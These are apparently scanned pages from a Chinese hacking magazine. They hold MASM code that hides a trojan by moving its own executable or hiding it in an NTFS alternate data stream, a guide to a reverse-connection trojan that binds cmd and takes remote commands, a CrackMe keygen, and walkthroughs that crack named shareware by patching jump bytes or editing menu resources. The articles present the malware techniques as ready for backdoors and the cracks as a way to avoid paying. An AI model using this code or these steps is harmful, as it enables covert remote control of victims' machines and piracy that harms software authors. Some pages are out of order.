令人奇怪的是，有两个参数竟然和源代码不同。经研究发现一个是要转换的物理地址，另一个是页目录表的线性地址，2K/XP 下应该就是 C0300000H 了，所以函数原型应该是：

```c
PVOID
MmGetVirtualForPhysical(
    IN PHYSICAL_ADDRESS PhysicalAddress,
    IN PVOID PageDirectoryAddress
);
```

然后看看如何构造自己的假地址，这里我通过搜索页表找到空白项，填入目标地址即可，这里的例子是往 GDT+4 的 NULL SELECTOR 中通过我自己的原来不存在的线性地址写入 12345678H 为例，原理很简单，不多说了，大家请看光盘中的源代码吧。

（完整代码和分析请看光盘“杂志相关”栏目）

如上所说，反 Rootkit 还有很长的路要走，即使进行了那么多重的保护，还是不能高枕无忧。由于笔者对系统内核了解很少，所以很多东西也不是很清楚，写这点笔记的过程也是我自己学习的一个过程，乱七八糟还算写完了，感谢你能耐心看到这里，如果有什么错误或者你有什么好的想法，请不要忘了告诉我，我的 E-mail 是 there@citiz.net。

# 轻松实现进程“伪隐藏”


◎ 文／icefox

进程隐藏？有什么用？你不知道？不是吧？！进程隐藏技术多用于木马和病毒中，是用于提高木马、后门等程序的生存率的，藏起来当然就不好找咯。那这里的“伪隐藏”又指什么呢？意思是说虽然在“Windows 任务管理器”进程列表中可以看到它的进程存在，但在硬盘中却找不到或者说不容易找到其相对应的程序文件——想到了吗？这样的后门、木马是不是很让查杀的人头疼？嘿嘿，要的就是这样的效果！

# 乾坤大挪移

大家都知道，当一个程序正在运行时，Win 系统是不允许把它删除的，但不知大家是否注意到：在 Win2000 中，当一个程序正在运行，我们虽然不能删除它，但却可以把程序文件在同一分区内移动位置和重命名！神奇吧？你可以自己试验一下（socket，这也就是“Windows 文件保护”所使用的方法）。

试想，如果我们的程序在运行后，立即把自身移动位置并重命名，而在“Windows 任务管理器”进程列表中显示的却还是原来的程序名，那你又该如何来查找到其对应的程序文件呢？当然，如果程序在内存中没有进行变形的话，你可以利用内存查看软件（如 WinHex）并利用查找功能来找到相对应的程序文件，但如果程序在内存中变形了，使得内存映像和硬盘中的原程序文件不同，有什么办法找出来吗？——反正我是没法找出来啦！好了，废话不多说，这么精妙的思维用在后门中一定是非常好的，我们来看它的实现代码（MASM）：

```asm
; 进程隐藏之乾坤大挪移（只能在同分区内移动）
.386
.model flat, stdcall
option casemap:none

include windows.inc
include kernel32.inc
includelib kernel32.lib
include user32.inc
includelib user32.lib

.data?
selfname db MAX_PATH dup(?)
.data
movename db "c:\mm.jpg",0
.code
main:
    invoke GetModuleFileName, NULL, addr selfname, MAX_PATH
    ; 得到自身路径
    mov al, byte ptr selfname
    ; 得到所在分区
    mov byte ptr movename, al
    ; 修正 movename，使其在同分区内移动
    invoke MoveFile, addr selfname, addr movename
    ; 把自身移动位置并改名
    invoke MessageBox, NULL, offset selfname, offset movename, MB_OK
    invoke ExitProcess, NULL
end main
```

本例程在 Win2000 下调试通过，XP 和 Win2003 也可以，Win98 和 WinME 不能用，大家可以自己测试一下。

# Intel 80386 以上的调试寄存器功能介绍

Intel 80386 以上的 CPU 提供了调试寄存器以用于软件调试，386 和 486 包括 6 个调试寄存器：Dr0、Dr1、Dr2、Dr3、Dr6、Dr7。这些寄存器全是 32 位的。Dr0—Dr3 用于设置硬件断点，即在调试器中经常使用的 BPM 断点。由于只有 4 个断点寄存器，所以最多只能设置 4 个 BPM 断点。Dr7 是一些控制位，用于控制断点的方式，Dr6 用于显示是哪些引起断点的原因，如果是 Dr0—Dr3、单步（EFLAGS 的 TF）或由于 GD 置位时访问调试寄存器引起 1 号调试陷阱的话，则相应设置对应的位。

- 1. **Dr7：**
  - 位 0 L0 和位 1 G0：用于控制 Dr0 是全局断点还是局部断点，如果 G0 置位则是全局断点，L0 置位则是局部断点，L 和 G 的区别在于进行任务切换的时候清除 L 位而 G 位保持不变。
  - G1L1～G3L3 用于控制 Dr1～Dr3，其功能同上。
  - RWE1～3，LEN1～3 分别用于控制 Dr1～Dr3 的断点方式，含义如上。
  - 还有一个 GD 位：用于保护 DRx，如果 GD 位为 1，则对 DRx 的任何访问都会导致进入 1 号调试陷阱，即 IDT 的对应入口，这样可以保证调试器在必要的时候完全控制 DRx。

| 字段 | 说明 |
|---|---|
| LEN0 | 占两位，始于位 18，用于控制 Dr0 的断点长度，可取值：00=1 字节，01=2 字节，10=保留，11=4 字节 |
| RWE0 | 从第 16 位开始，占两位，控制 Dr0 的断点是读、写还是执行断点，或是 I/O 端口断点：00=只执行，01=写入数据断点，10=I/O 端口断点（仅用于 Pentium+，需设置 CR4 的 DE 位），11=读或写数据断点 |

- 2. **调试状态寄存器 Dr6：**
  - 该寄存器用于表示进入陷阱 1 的原因，各个位的含义如下。
  - B0～B3：如果其中任何一个位置位，则表示是相应的 Dr0～Dr3 断点引发的调试陷阱。有时不管 GiLi 如何设置，只要遇到 Drx 指定的断点，总会设置 Bi；如果看到多个 Bi 置位，则可以通过 GiLi 的情况判断究竟是哪个 Dr 寄存器引发的调试陷阱。
  - BD 置位表示是 GD 位置位情况下访问调试寄存器引发的陷阱。
  - BT 置位表示是因为 TS 置位，即任务切换时 TSS 中 TS 位置 1 时切到第二个任务的第一条指令时引发的。
  - BS 置位表示是单步中断引发的断点，即 EFLAGS 的 TF 置位时引发的调试陷阱。
  - 注意 I/O 端口断点是 586+ 以上 CPU 才有的功能，受 CR4 的 DE 位控制，DE 为 1 才有效（DE 是 CR4 的第 3 位）。

```asm
; 进程隐藏之文件流（只能用于 NTFS 分区格式）
.386
.model flat, stdcall
option casemap:none
include windows.inc
```

```asm
include kernel32.inc
includelib kernel32.lib
include user32.inc
includelib user32.lib

.data?
selfname db MAX_PATH dup(?)
szFileSystemName db 10 dup(?)
.data
delname db ":cyfox.exe",0
; 此处把 ":cyfox.exe" 可以改为其他文件名如 "cs.txt:cs.exe"
; 我这里加 "::" 的目的是为了防止删除其他存在的文件
szErr db "我不在 NTFS 格式的分区内，退出！",0
szYes db "我在下面的流内，已被删除！",0
.code
main:
    invoke GetModuleFileName, NULL, addr selfname, MAX_PATH
    mov bl, byte ptr selfname+3
    mov byte ptr selfname+3, 0
    xor eax, eax

    ; 获取自身所在分区格式，并判断是否是 NTFS 格式
    invoke GetVolumeInformation, addr selfname, eax, eax, eax, eax, addr szFileSystemName, sizeof szFileSystemName
    mov byte ptr selfname+3, bl
    .if dword ptr szFileSystemName != 'SFTN' ; NTFS
        invoke MessageBox, NULL, offset szErr, NULL, MB_OK
        invoke ExitProcess, NULL
    .endif
```

判断自己是否在流（STREAM）中：

```asm
; 如果路径中含有两个 ":" 号，说明自己在文件流中
lea esi, selfname
xor edx, edx
@@:
    lodsb
    or al, al
    jz @F ; 遇到 0 结束
    .if al == ':'
        inc edx
    .endif
    .if edx == 2
        mov byte ptr [esi-1], 0
        invoke DeleteFile, addr selfname ; 删除宿主文件
        invoke MessageBox, NULL, offset delname, offset szYes, MB_OK
        invoke ExitProcess, NULL
    .endif
    jmp @B
```

当自身不在文件流中时，把自身复制到流中并运行：

```asm
@@:
    invoke CopyFile, addr selfname, addr delname, FALSE
    invoke WinExec, addr delname, NULL
    invoke ExitProcess, NULL
end main
```

好了，简单几句代码就搞定了，没有直接使用这个技术来实现后门或者木马，只是给大家提供了思路，相信有心人会把它用得很好的。要是写出了很棒的东西，别忘了一起交流哦！

（本文所用演示程序，代码均可在光盘中找到）

- 难度等级：中
- 适合读者：编程爱好者
- 前置知识：木马基本编写技巧

Icefire：反向连接的木马大家应该很熟悉了吧？相信实际的入侵过程中一定没少用，但你知道它是怎么编写的吗？想过自己去编写一个属于自己的反向连接木马没有？其实很简单的，不信你就看下面的文章：

# 基于反向连接的木马编写总解

文／Seven


传统的木马，通常做法是服务端侦听、客户端连接，而反向连接技术恰恰相反，采用的是客户端侦听、服务端连接的思路。反向连接的好处是什么？我们可以看到，传统木马的服务端需要在某一端口侦听，很容易被发现；而采取反向连接技术之后，服务端主动去连接客户端，并且如果客户端的侦听端口类似 21、80 的很有迷惑性的端口，很多人都会以为这是正常的访问而不去关注，从而达到了隐藏木马、后门的目的。

反向连接的实现除了服务端和客户端之外，还需要第三者的介入，而这个第三者必须是服务端和客户端都能方便地访问到。比如一个文件，并且很重要的一点是客户端需要能建立、修改这个文件。比如，某个公共、私有 FTP 空间上的文件。

大体来讲，整个反向连接的步骤是这样的：

- （1）客户端把自己的 IP 和端口号上传到约定好的文件；
- （2）服务端读取文件；
- （3）服务端根据读取到的 IP 和端口号主动连接客户端。

下面，我们就一起来看看编程是如何具体实现这个功能的。

## 服务端实现

- （1）木马的服务器端不是由客户端生成，配置信息（告诉客户端从哪里读取关于客户端的 IP 和端口号）直接放在一个配置文件里而没有写入到服务器端程序中，关键就是读取配置信息的代码了：

```c
BOOL ret=FALSE;
FILE *fp;
char url[512];
fp=fopen("URL.INI","r");
if(fp)
{
    url[0]=0;
    fscanf(fp,"%s",url);
    if(url[0]!=0)
```

```c
ServerURL.Format("%s",url);
ret=TRUE;

fclose(fp);

return ret;
```

- （2）得到配置信息后，服务端要连到网上去读取客户端的 IP 和 PORT，格式为 IP:PORT。代码如下：

（详细代码请看光盘“杂志相关”栏目）

- （3）服务端得到 IP 和 PORT 后，主动去连接客户端，这样的代码没什么难度的：

```c
CSocket sockClient;
sockClient.Create();
if(sockClient.Connect(ip, port)) // 反向连接
{
    // 绑定 cmd
}
sockClient.Close();
```

- （4）既然是木马，就要绑定 cmd 了，否则什么都干不了。

（具体代码请看光盘“杂志相关”栏目）

## 客户端实现

客户端其实就是在本地的某个端口监听服务端发来的连接请求，如果有连接的话就可以运行命令了，具体步骤如下：

- （1）监听代码（注意：为了不使程序的界面“没响应”，监听的代码要放到一个新线程里）。
- （具体代码请看光盘“杂志相关”栏目）
- （2）发送命令代码：

- 难度等级：高
- 适合读者：破解爱好者、程序员
- 前置知识：破解常用基础知识、汇编代码阅读能力

Icefire：本文的目的不在于如何跟踪这个 CrackMe，尽管它可以简单地实现爆破，也可以观察 ESI 得到正确的注册码，还可以制作内存注册码机。但作为一个 Cracker 而言，我们不能单停留在这个层次上，要能够学会通过看汇编代码来分析别人的意图、思路、想法，能够总结出其中的算法，再用高级语言描述出来，将别人优秀的编程思路借鉴、学习过来，这才是 Cracker 的真正境界！

# XCG CrackMe 算法分析

在本文的开始，笔者要申明写这篇文章的目的是抛砖引玉，希望对算法分析不了解的朋友能了解到一些这方面的技术，而破解高手能够多写更好的文章，共同来讨论破解的相关技术。这次的目标是 XCG 作业的 CrackMe2，一个比较简单的 CrackMe，对于新手而言是一个很好的上手程序，我就不废话了，直接开始吧！

（CrackMe、注册机详细代码均可在光盘中找到）首先使用查壳工具可以发现 CrackMe 2 是用 UPX 加的壳，很简单，直接使用“upx -d”就可以脱壳了。再运行程序，发现输入错误的序列号（Serial），会出现提示对话框，熟悉破解的朋友都喜欢这个提示框吧？这就是我们初步分析的切入点了。现在看来分析起来应该很方便的，爆破应该没多大问题。

使用 OD 载入该程序，右键→搜索→字符串参考，找到下面的句子：

```asm
ASCII "You Have Enter A Wrong Serial, Please Try Again!"
```

然后向上看，会发现该程序计算 Serial 的关键地方，这里需要我们注意：

```asm
00401334    E8 4A000000      CALL Key-Crac.00401383
00401339    5E              POP ESI
0040133A    3BC6            CMP EAX, ESI
0040133C    75 15           JNZ SHORT Key-Crac.00401353
0040133E    6A 00           PUSH 0
/Style= MB_OK|MB_APPLMODAL
00401340    68 62344000     PUSH Key-Crac.00403462
[Title]="Key CrackMe #2"
00401345    68 83440000     PUSH Key-Crac.00403488
[Text]="Good Job, Wish You the Very Best!"
0040134A    6A 00           PUSH 0
```

```asm
0040134C    E8 9D000000     CALL <JMP.&USER32.MessageBoxA>
00401351    EB 13           JMP SHORT Key-Crac.00401366
00401353    6A 00           PUSH 0
/Style= MB_OK|MB_APPLMODAL
00401355    68 62344000     PUSH Key-Crac.00403462
[Title]="Key CrackMe #2"
0040135A    68 86344000     PUSH Key-Crac.00403486
[Text]="You Have Enter A Wrong Serial, Please Try Again"
0040135F    6A 00           PUSH 0 ; hOwner = NULL
00401361    E8 88000000     CALL <JMP.&USER32.MessageBoxA>
00401366    EB 15           JMP SHORT Key-Crac.0040137D
00401368    FF75 14         PUSH DWORD PTR SS:[EBP+14] ; lParam
0040136B    FF75 10         PUSH DWORD PTR SS:[EBP+10] ; wParam
0040136E    FF75 0C         PUSH DWORD PTR SS:[EBP+C] ; lMessage
00401371    FF75 08         PUSH DWORD PTR SS:[EBP+8] ; hWnd
00401374    E8 3F000000     CALL <JMP.&USER32.DefWindowProcA>
00401379    C9              LEAVE
0040137A    C2 1000         RETN 10
0040137D    33C0            XOR EAX,EAX
0040137F    C9              LEAVE
00401380    C2 1000         RETN 10
```

大家看了代码，很明显 0040133A 处的 CMP 语句是比较数据的关键地方，下面那句 JNZ 也就是俗称的关键跳转，改为相反就可以了，这也就是最常见、最初步的简单爆破了。但是，如果程序有多处比较，就需要改动多处跳转，操作起来很麻烦，真正一劳永逸的方法就是把算法跟踪出来，写出通用的注册机。当然，如果程序在内存中出现过完整的注册码的话，也可以使用 KeyMake 来制作内存注册机了，下面来看看具体情况：

首先，我们一句句分析该程序的算法，不太熟悉的朋友一定要耐心往下看哦：

```asm
004012F6  |> 68 38304000      PUSHI Key--Crac.00403038
; 将你的用户名暂时进栈

004012FB  |. E8 36010000      CALL <JMP.&KERNEL32.lstrlenA>
; lstrlenA，取得字符串长度的函数，返回值在 EAX 中

00401300  |. 33F6            XOR ESI,ESI
; 将 ESI 归零，ESI 用来存放计算结果

00401302  |. 8BC8            MOV ECX,EAX
; 将 EAX 的值给 ECX，用户名的长度，让 ECX 当计数器

00401304  |. B8 01000000     MOV EAX,1
; 将 1 赋给 EAX，字符串当做数组来操作，索引初始化

00401309  |. 8B15 38304000   MOV EDX,DWORD PTR DS:[403038]
; 字符串首地址进 EDX

0040130F  |. 8A90 37304000   MOV DL,BYTE PTR DS:[EAX+403037]
; 取用户名当前计算中的某一位字符的 ASCII 码到 DL

00401315  |. 81E2 FF000000   AND EDX,0FF
; 与操作，把 EDX 高位清零

0040131B  |. 8BDA            MOV EBX,EDX
; 把 EDX 的内容赋给 EBX

0040131D  |. 0FAFDA          IMUL EBX,EDX
; 相当于字母 ASCII 的平方

00401320  |. 03F3            ADD ESI,EBX
; 将计算结果加上 ESI

00401322  |. 8BDA            MOV EBX,EDX
00401324  |. D1FB            SAR EBX,1
; 右移一位，相当于除 2

00401326  |. 03F3            ADD ESI,EBX
; 结果继续累加

00401328  |. 2BF2            SUB ESI,EDX
; 再减掉原来字符的 ASCII 码

0040132A  |. 40              INC EAX
; 索引加一，配合 0040130F 继续取下一个字符

0040132B  |. 49              DEC ECX
; 计数器递减

0040132C  |. 75 DB           JNZ SHORT Key--Crac.00401309
; 判断 ECX 是否为 0，不为 0 则继续循环

0040132E  |. 56              PUSH ESI
; 计算出的结果压栈保存
```

好了，发现结果了吧？就这么简单。好了，在写注册机之前，先和大家废话几句。往往有很多喜欢破解的朋友，看了别人写的破解文章后，会似懂非懂的。感觉会破解了，但实际尝试的时候，又常常会被卡住，症结就在于基础不够扎实。其实，破解牵涉到很多方面的知识，要成为一个破解高手需要有很好的汇编功底、对操作系统底层工作模式有相当的了解。另外，对编程方面也要有一定的功力。笔者个人认为破解和编程是密切相关的，能够相辅相成，破解和编程相当于是函数与反函数的关系；了解编程有助于提高破解的水平，反之亦然，破解也有助于更深刻地理解系统的工作模式，对提高编程水平有相当的助力。

下面，列出笔者使用 Delphi 所写注册机的主要部分的源代码：

```pascal
procedure TForm1.spbtnRegClick(Sender: TObject);
var
  sUser: string;            // 存放用户名的字符串变量
  i, tem, RegCode: integer; // 循环变量、临时计算变量和注册码 RegCode
begin
  sUser := txtUserName.Text;      // 将文本框中输入的用户名读入
  RegCode := 0;                   // 将注册码变量清 0，相当于 XOR ESI,ESI
  for i := 1 to Length(sUser) do  // 计算注册码的循环，相当于 ECX 的作用
  begin
    tem := ord(sUser[i]);
    RegCode := RegCode + tem*tem + tem div 2 - tem;
    // 当前用户名字符的 ASCII 码平方（tem*tem）
    // 加上当前用户名字符的 ASCII 码除 2（tem div 2）
    // 减去当前计算的字符 ASCII 值
    // 再加上计算时的累积值（RegCode）
  end;
  txtReg.Lines.Add(IntToStr(RegCode));
end;
```

本文并没有牵涉到很复杂的破解步骤，相信大家学习了这么长时间的破解后，一定已经是熟练掌握了。对初学的朋友，下面的一些基本且基础的东西是需要好好理解的哦。

汇编指令：笔者认为作为 Cracker 而言，不了解汇编是很难成为高手的，所以希望对破解感兴趣但没有学过汇编的朋友，能够认真地去学习。了解一下汇编，对于文中的汇编指令已有注释，在此就不一一赘述了，只对几条重要的指令进行解释。

XOR ESI, ESI；异或指令，异或的规则是“相同”为 0，“相异”为 1，这里所比较的都是以二进制中的位为单位的，例如：11011100B XOR 11110110B 的结果就是 00101010B（大家可以把两个数字分两行按位上下对齐写下来，就能方便理解了），所以自己和自己异或的结果一定是 0。

AND EDX, 0FF；与指令，与的规则是有 0 则 0，全 1 出 1，也按上例的数值计算：11011100B AND 11110110B = 11010100B。与也可以用于清 0，就是让寄存器和全 0 的数值相与；与也可以用于保留特定位的内容。同 1 相与，如同这句指令一样 AND EDX, 0FF，其作用为保留该寄存器的低 8 位内容不变，这么做的目的在于使寄存器中只保留该字符的 ASCII 码（可以查一下 ASCII 码表，ASCII 码长度为 7 位）。

SAR EBX, 1，这句比较重要，自学汇编的朋友往往不太容易真正掌握：如同大家在课本上看到的一样，SAR 确实是右移指令（也是按位操作的），就是把该数的最右（最底）位移出，最高（最左）位补 0；举个例子，11100101B 进行右移 1 位的操作的结果就是：01110010B；但该指令还有另外的作用（解释），这需要结合数值的进制来说。首先，大家可以想一下，我们平时使用的十进制数，如果也右移一位相当于什么作用呢？对，聪明的朋友已经反应过来了，就是整除 10。所以，在以二进制为单位情况下，就相当于除 2。

分析算法：要从汇编程序中，看懂作者的意图，再用高级语言描述出该算法，就需要你有一定的编程基础了。需要积累一定的经验，不是能一蹴而就的事情，希望大家能够认真地学习一下编程，一定对你有帮助的。

最后：由于本文所针对的程序，在输入错误的 Serial 时会有提示，所以定位关键代码比较方便，有一定的局限性。由于笔者水平有限，如有错误，敬请指正；如果有疑问，也欢迎大家和笔者交流。

# 破解注册码检验程序：英语会话精灵

文／图 牛渊

现在学习英语口语的软件真是层出不穷，有“轻轻松松学口语”、“英语八哥”、“单词超人”等等，实在是太多。但我觉得这么多英语口语软件中，还属“英语会话精灵”较出色，因为它是一款非常方便、高效的英语会话学习软件，其中包含 12 大类 1900 余句经典、实用的英语会话例句。使用者可以根据自己的学习要求对其进行设置，并可进行自动播放，只要你在使用电脑进行工作、学习或娱乐，就能不知不觉、轻轻松松地掌握各类日常英语会话，提高英语的听力和口语能力了！这样好的软件是不是让你心动呢？不过，当你下载并运行软件后，会突然发现它是一个共享软件，需要花好多好多的 Money 才能注册成功，然后才能获得所有的功能！如果不注册的话，那么你就只能反复地学习那可怜的一两句常用口语了。唉，对我们这些很穷的上网族来讲，真是要了我们的命啊！既想学很多的口语，又不想花一分钱，那就只有一个办法咯：破解！嘿嘿，好程序应该共享嘛。

要破解自然工具不能少：W32dasm 黄金版（它是我的最爱）、Procdump、Peid、UltraEdit 就足够，有了这 4 件破解利器，我们可以进行下面的破解了。

首先，我们要查看一下它是否加壳，结果显示它是用 Aspack2.12 加的壳，如图 1 所示。看来我们遇到了一点儿小小的麻烦，必须先将它的外壳剥掉，才可以进行下面的破解工作。


图 1

提到脱壳，我们可以手动脱壳，也可以利用工具自动脱壳。由于这次脱壳并不是我们所要讨论的内容，所以只要找一个支持 Aspack2.12 的脱壳工具进行自动脱壳就可以了。最常用的也是最好用的脱壳工具应属 Procdump 了。但有个问题需要我们解决：虽然 Procdump 能脱掉很多种壳，但偏偏我找到的这个版本却不支持 Aspack2.12 以上的壳，所以还需要手动来编辑一个脚本文件：在 Procdump 的安装目录下找到名为 Script.ini 的文件并用记事本打开它，找到 [INDEX] 小节，然后在该小节的最后一行加上 PIE=Aspack2.12，将光标停到文件的最后面，输入下面的代码并保存退出。


通过这样的改造，Procdump 就可以脱掉 Aspack2.12 加的壳了，如图 2 所示。经过脱壳，我们看到了它原来的真面目。


图 2

现在我们再运行软件，一开始就弹出了一个对话框，如图 3 所示，警告我们：“此软件未注册，只能使用最简单的几句日常用语！”先不用管它，点“确定”，程序继续运行下去。打开下拉菜单，进行软件注册，在注册码处随便输入几个数字，如：123456789，然后点击“确定”，弹出一个对话框，如图 4 所示：注册码无效！好了，要的就是它！


图 3

拿出 W32dasm，反编译完后，选择“参考”－“串式数据参考”，然后找到“注册码无效”的提示语句。双击它，看看代码，将光标向上移动几行，看到一个“0047A0C0”的跳转，它就是直接跳转到“注册码无效”那一行的语句了，再将光标向上移至“0047A0C0”，看到下面几行有一句“注册成功，请保留好你的注册码”的提示，如图 5 所示。找到它就好办了，将光标移到“0047A0C0”处，将“0F853D010000”改成“0F843D010000”。


图 4

图 5

再一次运行“英语会话精灵”，还是弹出来未注册的对话框（当然了，你还没注册呢！），先不用管它，注册。和刚才一样随便输入几个数字，点“确定”。看看是不是注册成功了？单击右键弹出菜单，选择“选择会话内容”，这次看到了刚才那些禁止使用的对话语句都可以选择了吧，好了，现在选一个“谚语格言”来试试，感觉还真不错！

关闭它再重新运行一次，怎么还是弹出没注册的对话框？难道没有注册成功？再一次选择“选择会话内容”，那些禁止使用的对话语句又不可以选择了，再重新注册一次，那些禁止使用的对话语句又恢复使用了！

奇怪，我们爆破看来还不行，一定是程序在启动时有一个进行注册码比较的过程，刚才我们只是简单地将那个跳转改了一下，看似注册成功了，但当我们再一次启动程序时，它还会进行注册码的比较，所以，光改这一个跳转并不能成功。我们继续！

拿出 W32dasm 进行反编译，选择“参考”－“串式数据参考”，找到那个讨厌的未注册提示，双击它看代码。向上看，有一个有效跳转“004B2CCC”，将光标停在“004B2CCC”处，将“0F85AB000000”改成“0F84AB000000”，再一次运行“英语会话精灵”。怎么样？是不是那个可恶的对话框消失了，赶快单击右键弹出菜单选择“选择会话内容”，是不是又一次看到了那些禁止使用的菜单了？如果你觉得不放心的话，可以再重新运行一次程序，那个对话框可是彻底地从你的眼皮底下消失了哦，所有限制的功能也都能使用了！

这次的破解，遇到的是一个重启程序后再一次进行注册码比较的程序，破解它的关键在于要准确地找到关键的注册比较处，然后找关键跳转，进行正确的修改，这样就可以快速地破解它了。学会软件注册的原理，这样一来，下一次我们碰到相似的软件，破解起来就会得心应手了！

- 难度等级：低
- 适合读者：破解爱好者

Icefire：破解一直是很多初入门的朋友认为很神奇的技术，因为常常看见晦涩的汇编代码，自己也就立即停止不前了，长期这样下来，很多朋友就觉得破解是遥不可及的技术了——其实，这是错误的！在下面的文章中，我们将看到没有动用任何逆向工程的相关技术，甚至没有分析过一行软件的反汇编代码，仅仅通过一个强大的资源分析工具就达到了突破软件限制的目的，而且该方法原理简单，易操作性强，就算你身为菜鸟，也一样可以运用自如！别怕，静下心来跟着做，You can do it!


# 不用汇编破解软件

## ——巧用资源编辑工具突破某著名网络电视软件功能限制

◎ 文／图 木头

现在很多共享软件都通过“功能限制”的方式来促进用户注册，一般经常被限制的功能有保存、打印、编辑等。通常的逆向工程分析方法是追踪到软件判断注册与否的核心例程，然后修改关键性的跳转或者修改关键性数据来使软件认为自身已经注册，从而开放那些被限制的功能。这种方法要求分析者对逆向工程和汇编语言操作非常熟悉，入门的门槛较高。而更多软件的功能限制仅仅是通过“灰色菜单”、“灰色按钮”等方式来体现的，对采取这些形式保护的软件，就算是菜鸟级的用户，只要手头有合适的工具，也能轻易解除软件的功能限制。

当然，“功能限制”型的软件也能分为两类：一类是软件内所有功能的代码都存在，只是由“注册与否”的开关控制那些“被保护”的功能是否可以被用户使用；另一类是“被保护”的功能的代码根本就没有写入软件的共享版本，只有注册后，用户才能得到全功能的版本。我们这里所针对的情况当然应该是第一类。

以一个常用的网络电视软件为例，未注册时，它通过灰色菜单的形式，限制用户的使用，如图1所示。


面对这种限制，我们的分析可以从两个角度着手：一是从 API 角度。让一个菜单项变灰，可以调用 EnableWindow 或者 EnableMenuItem 等系统 API 使窗口变为 Disable 模式，从而达到变灰禁止使用的效果；二是从资源文件角度。在编写程序时，可以在资源文件（RC 文件）中，显示指定某些资源（对话框、菜单项等）的初始状态，如果我们在 RC 资源文件中就将菜单指定为“Disable”状态，那么程序运行时该菜单就将处于灰色，不能使用。

第一种方法就是通常的调试方法，难度较大，如果软件作者采用的是定义 RC 资源文件属性的方法的话，那么我们可以利用第二种方法，结合一些资源编辑工具软件，以达到突破功能限制的目的。

要分析、修改软件的资源，我们首先需要一款强大的资源编辑、分析软件。常用的这方面软件有 Exescope、ResHack、FreeRes 等。每一款都有其独特的功能，可以根据需要选用合适的软件：

- **Exescope**：通用型资源查看、编辑软件。对 VC++ 编写的 Windows 程序有良好的支持。
- **ResHack**：强大的“资源脚本”功能，支持的资源类型非常多。
- **FreeRes**：支持从加壳程序中提取资源的操作。

对图1中所示的软件，首先使用脱壳工具脱去软件的壳，然后用 PeID 软件探知软件系采用 Delphi 编写而成。Delphi 编写的软件，其资源大部分都是 Delphi 自定义的 RCData 形式，而 ResHack 对 RCData 形式的资源有良好的支持。因此，我们选择 ResHack 进行我们的工作。用 ResHack 打开已经脱壳的目标软件，如图2所示。


上图很清楚地显示出了 ResHack 已经正确地提取出了软件的 RCData 数据，因此，展开 RCData 栏，如图3所示。由于图1中的菜单数据出现在软件的主界面中，因此，我们选择 TFORM1，查看 TFORM1 内含的 RCData 数据。选中 TFORM1 后，软件右边的查看窗口会详细地列出所有 RCData 的数据，我们搜索菜单资源，可以找到如图4所示的软件内容。


图3：展开 RCData


图4 ResHack 分析 TFORM1 的资源数据

在这个资源段中，可以很清楚地看到 Enable = False 这一行代码，就是这一句导致了我们开头所看到的菜单项变成了灰色。因此，我们将它修改为 Enable = True，如图5所示。


图5 修改菜单的 Enable 属性

修改完后，原本是灰色不能点的左上角的那个“编译脚本”的按钮现在也马上变得可用，我们点“编译脚本”，程序重新生成了软件的 RCData 数据。此时，“编译脚本”的按钮又重新变灰，变成不可使用的状态。我们这里的修改完成后，选择 ResHack 的“文件”→“保存为……”功能，将重新生成 RCData 的 EXE 文件另取一个名字保存起来，然后执行修改后的文件，可以看到，该菜单已经可以正常选取了。如图6所示。


图6 重新生成 RCData 后，原本灰色的菜单已经可用

当然，由于本软件“灰色”的菜单太多，要想使其可用，在 ResHack 中少不了反复地修改 False 为 True 的操作。还有需要注意的是：我们上面修改的菜单是“一级”菜单，它的右边有一个小黑三角，鼠标移到这个“一级”菜单上面后，它的“二级”子菜单就会弹出来，由于我们只修改了“一级”菜单，而没有对“二级”子菜单进行任何操作，因此，二级子菜单仍然有很多为灰色。而在修改“二级”子菜单的过程中，一定要先保证“一级”菜单已经为 True 状态，否则，软件运行时，将会出现运行错误。

最后，由于 Delphi 软件资源格式的极其特别，脱壳好的软件只能用 ResHack 修改一次，如果在已经修改过的软件上面继续修改，生成的新的 EXE 文件执行后将会出现运行期错误。

当然，突破软件的功能限制的方法远不止这一种——在运行时动态修改窗口的消息循环、修改 Delphi 的资源 Stub Parse Code、直接提取功能代码生成新 EXE 文件等等方法都可以达到突破功能限制的目的，而且随着对程序运行原理的进一步深入以及创新式地从不同的角度思考软件功能限制的实现原理，读者朋友一定可以开发出自己的软件突破方法，可不要忘了大家一起交流哦！

## 接54页

```c
UpdateData();
char temp="\r\n";
LPCSTR szData=(LPCSTR)m_strCommand;
send(sClient,szData,strlen(szData),0);
Sleep(50);
send(sClient,temp,strlen(temp),0);
m_strCommand="";
UpdateData(FALSE);
```

注意，这里为什么要 Send 一个“\r\n”呢？那是因为这里的命令是给 cmd 运行的，而 cmd 是以“\r\n”来判断一个命令结束的，所以我们要在命令后面把它发过去。

上面的代码是实现运行服务器端后每隔10分钟到指定的地方去读取要连接的 IP 和 PORT，然后反向连接到客户端（为了简单起见，每个服务器只会连接一个客户端，每个客户端也只能接受一个服务器端），客户端可以直接运行 cmd 里面的命令，直到输入 Exit 命令退出，是不是比你想像中要简单很多？编程其实很简单的，只要你看懂了具体代码，一切都很轻松！

# 忧郁中的入侵反击战！


○ 文／图·依冰

我是一个很老实的人，从不入侵别人的系统，可是这个世界就是这么无情，你不惹别人，别人却偏偏要惹你。被逼无奈的我，只好操起武器，进行了一场入侵反击战，故事就是这样发生的……

年轻人嘛，比较前卫一些，有了新东西就想玩玩。于是我的 PC 里装的是 Win2003，刚上网的时候，感觉网速不错，可玩了一会儿，速度突然就慢了下来，有时还掉线。根据以前的经验推测，不是中了病毒或木马之类的东西，就是它被入侵，当然，电信的人在搞鬼我就没办法了。今天非得要查出个所以然来。

据我分析，应该就是 server.exe 这个进程了，本来还想用端口审核工具好好查查的，可是现在还没有一种端口审核工具可以在 Win2003 中运行。不管那么多，就是 server.exe 这个进程了。在 CMD 里输入 PK 2040，这里用的是 server.exe 进程的 PID 号查杀进程，也可以输入 PK server.exe，这两个命令效果一样，杀掉 server.exe 这个进程。OK，我们再用 netstat -an 命令查看一下端口，发现 3152 端口不见了，然后再把 D:\WINDOWS\ 下的 server.exe 文件删掉（注意：我的系统在 D 盘装着，所以系统盘就是 D 盘，一般系统盘都是在 C 盘的）。

## 清理被入侵系统

打开亲爱的 CMD 窗口，输入 netstat -an，先分析一下端口，如图1所示。


图1

给大家解释一下：135端口不用再说了吧？1025、1026、3001、3002、3003都是 Win2003 系统自带的，可是那个 3152 是干什么的？怀疑！分析完端口后，让我们来看看进程，拿出我最爱的一个小工具 PK.EXE，在 CMD 里输入 pk -l，发现了如下可疑进程（无关的进程已经去掉）：

```text
server.exe    2040    D:\WINDOWS\server.exe
```

